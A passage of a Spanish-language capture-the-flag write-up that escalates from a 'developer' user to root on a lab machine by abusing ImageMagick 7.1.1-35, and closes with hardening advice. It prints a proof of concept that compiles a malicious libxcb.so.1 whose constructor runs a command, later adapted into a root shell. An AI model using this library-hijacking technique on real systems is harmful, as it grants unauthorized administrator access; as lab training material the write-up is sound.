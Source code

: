 
<img width="1118" height="714" alt="24" src="https://github.com/user-attachments/assets/90dc34ae-6794-4c15-95ec-17a733df2bab" />


Realizando un reconocimiento básico de la máquina con los privilegios del usuario "developer", encontraremos un script llamado **identify_images.sh**. Con esto, descubriremos que la herramienta **ImageMagick** está instalada en la máquina. **ImageMagick** es un programa que permite editar imágenes digitales.


<img width="872" height="67" alt="25" src="https://github.com/user-attachments/assets/93220006-5c57-4b69-a192-398368084655" />


La versión instalada es **7.1.1-35**, que presenta vulnerabilidades. Podemos buscar una prueba de concepto para escalar privilegios.


<img width="1069" height="119" alt="27" src="https://github.com/user-attachments/assets/a03dfce7-e716-41ec-a6b9-3769f5a61a23" />


He encontrado esta prueba de concepto con una búsqueda rápida.

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
```

La modificamos para que nos proporcione una **shell** con los privilegios de administrador.


<img width="795" height="147" alt="30" src="https://github.com/user-attachments/assets/30b981ac-063f-4a99-9ee5-29dcfbbc06b0" />


Si la ejecutamos, generará un archivo que nos otorgará la **shell** con los privilegios de administrador.


<img width="1162" height="370" alt="31" src="https://github.com/user-attachments/assets/368e1ec3-f2ff-4d25-ac6e-5866ef3cc5f1" />


<img width="1484" height="168" alt="32" src="https://github.com/user-attachments/assets/9ed8b30d-3540-4854-a814-327ab8fe2db5" />


Finalmente, al acceder como administrador, podremos obtener la última **flag** en el directorio `/root`.

# ¿Como se puede securizar?

- Implementar controles de acceso para evitar que archivos sensibles como `/etc/passwd` sean accesibles a través de la web.
- Asegurarse de que todos los parámetros de entrada, como el **ticket** en el directorio `/download`, sean validados y sanitizados para prevenir ataques de **path traversal**.
- Mantener **ImageMagick** y otros paquetes de software actualizados a sus versiones más recientes para mitigar vulnerabilidades conocidas.
- Implementar políticas de contraseñas que requieran el uso de contraseñas fuertes y únicas para cada usuario.
